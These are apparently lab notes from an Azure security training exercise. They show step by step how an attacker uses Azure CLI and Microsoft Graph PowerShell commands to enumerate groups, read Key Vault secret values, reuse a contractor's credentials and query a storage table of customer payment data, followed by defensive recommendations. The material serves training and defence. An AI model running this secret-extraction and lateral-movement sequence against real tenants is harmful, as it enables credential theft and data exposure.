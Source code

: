 *Learn how attackers can leverage common services to move laterally in an Azure environment. You'll get hands-on experience with Azure Key Vault and Storage tables, understand what made this attack path possible and how it could have been prevented.*

## Learning outcomes  

- Familiarity with the Azure CLI and PowerShell
- Enumeration for situational awareness and lateral movement
- Access secrets in Azure Key Vault
- Query data in Storage Tables
## Notes

- The equivalent Azure CLI command for `whoami` is `az ad signed-in-user show`.
1. We logged into the credentials from azure blob lab

2. Went ahead and installed the Microsoft Graph to get user, subscription, etc. from the PowerShell.
		`Install-Module Microsoft.Graph 
		`Import-Module Microsoft.Graph.Users 
		`Connect-MgGraph 
		`Install-Module Az 
		`Import-Module Az 
		`Connect-AzAccount

3. To get which group a user is apart of run the `Get-MgUserMemberOf -userid "marcus@megabigtech.com" | select * -ExpandProperty additionalProperties | Select-Object {$_.AdditionalProperties["displayName"]}` command.

- `Get-MgUserMemberOf` is a Microsoft Graph PowerShell cmdlet that retrieves these group memberships.

- `$_`: Refers to the current object being processed.

- `AdditionalProperties["displayName"]`: Accesses the `displayName` property within the `AdditionalProperties` of the object.

- `Select-Object`: Outputs only the `displayName` value for each item.

4. `az resource list` list the resources specified either in the subscription or resource group.

5. `$secretsJson = az keyvault secret list --vault-name $VaultName -o json` Retrieves a  list of all secrets stored in the Azure Key Vault specified by the variable `$VaultName`. `-o json` outputs the list in JSON format.

- `$secrets = $secretsJson | ConvertFrom-Json`. `ConvertFrom-Json` converts the JSON output into a PowerShell object for easier handling and then stored in a variable.
	
- `$keysJson = az keyvault key list --vault-name $VaultName -o json ` - Retrieves a list of all cryptographic keys stored in the same Key Vault.

6. Got the name of the secrets and want to get their values. Creating a list and giving it a variable `$SecretNames = @("alissa-suarez", "josh-harvey", "ryan-garcia")`
	Then creating a for loop:

	Write-Host "Secret Values from vault $VaultName"
	foreach ($SecretName in $SecretNames) { 
		$secretValueJson = az keyvault secret show --name $SecretName --vault-name $VaultName -o json 
		$secretValue = ($secretValueJson | ConvertFrom-Json).value Write-Host "$SecretName - $secretValue" } 
        ```

7.  We want to see which contractor is active in the system. `az ad user list --query "[?givenName=='Alissa' || givenName=='Josh' || givenName=='Ryan'].{Name:displayName, UPN:userPrincipalName, JobTitle:jobTitle}" -o table`
8. Getting the object ID helps with finding out which group they are a member of. `Get-MgUser -UserId ext.josh.harvey@megabigtech.com`
	1. `$UserId = '6470f625-41ce-4233-a621-fad0aa0b7300'
	`Get-MgUserMemberOf -userid $userid | select * -ExpandProperty additionalProperties | Select-Object {$_.AdditionalProperties["displayName"]}
9. To find what permissions are assigned from a subscription level run `Get-AzRoleAssignment -Scope "/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94" | Select-Object DisplayName, RoleDefinitionName` 
11. Finding what permissions are attached to the group `az role definition list --custom-role-only true --query "[?roleName=='Customer Database Access']" -o json` 
12. `az storage account list --query "[].name" -o tsv` lists all storage accounts
13. `az storage table list --account-name custdatabase --output table --auth-mode login` checks to see if there's a table in the storage account.
14. `az storage entity query --table-name customers --account-name custdatabase --output table --auth-mode login` list all the data in that table.

---

### **Attack Flow Analysis**

1. **Initial Compromise**:
    
    - The attacker gains access to the Azure user account `marcus@megabigtech.com`.
    - This entry point serves as the foothold into the environment.
2. **Establishing Context**:
    
    - The attacker verifies their environment with commands like `az account show` and `az ad signed-in-user show`, which confirm the subscription context and user identity.
    - Using `Get-MgUserMemberOf`, they enumerate group memberships to identify roles and privileges.
3. **Enumerating Resources**:
    
    - By setting the subscription context with `az account set`, the attacker lists all accessible resources using `az resource list`, identifying critical assets like the **Azure Key Vault** (`ext-contractors`).
4. **Targeting Azure Key Vault**:
    
    - Azure Key Vault is a treasure trove for sensitive secrets and encryption keys. The attacker:
        - Lists secrets and keys using `az keyvault secret list` and `az keyvault key list`.
        - Extracts the values of the secrets (`alissa-suarez`, `josh-harvey`, `ryan-garcia`) to potentially compromise additional accounts.
5. **Expanding Privileges**:
    
    - The attacker queries Entra ID for users matching the extracted credentials to see if any accounts exist with these names. They find `Josh Harvey`, an active contractor account.
    - Using `Get-MgUser`, they retrieve the `ObjectId` for the user to further analyze their permissions.
6. **Leveraging the Contractor Account**:
    
    - Josh Harvey’s account is found to be a member of the `CUSTOMER-DATABASE-ACCESS` security group, which has read permissions to storage tables in the subscription.
    - By logging in with Josh’s credentials, the attacker confirms access to the group’s permissions and discovers the `Customer Database Access` custom role.
7. **Exfiltrating Confidential Data**:
    
    - Using the `az storage table list` command, the attacker identifies the `customers` table in the `custdatabase` storage account.
    - They query the table with `az storage entity query`, gaining access to sensitive payment data of Mega Big Tech’s clients.

---

### **Key Attack Insights**

1. **Initial Vulnerability**:
    
    - A weakly secured Azure account (`marcus@megabigtech.com`) was compromised, granting attackers access to the cloud environment.
2. **Chained Exploitation**:
    
    - The attackers leveraged the principle of lateral movement:
        - Enumerating Key Vault secrets and finding reusable credentials.
        - Using the compromised contractor account for privilege escalation.
3. **Critical Data Exposure**:
    
    - A custom role (`Customer Database Access`) allowed access to unencrypted customer payment data.

---

### **Defensive Recommendations**

1. **Account Security**:
    
    - Enforce strong authentication mechanisms like **MFA** and regular password updates.
    - Monitor account activity using **Azure AD logs** to detect unusual access patterns.
2. **Azure Key Vault Hardening**:
    
    - Limit access to Key Vault secrets based on the **principle of least privilege**.
    - Regularly rotate secrets and enforce policies like **secret expiration**.
3. **Group and Role Management**:
    
    - Review and clean up unnecessary memberships in high-privilege groups (e.g., `CUSTOMER-DATABASE-ACCESS`).
    - Audit custom roles like `Customer Database Access` to ensure their permissions are strictly necessary.
4. **Storage Table Security**:
    
    - Enable **encryption at rest and in transit** for sensitive data.
    - Restrict access to storage accounts by implementing **network rules** and **Azure RBAC**.
5. **Regular Auditing**:
    
    - Conduct routine security assessments using tools like **Azure Security Center**.
    - Monitor resources for changes in configuration or access policies.
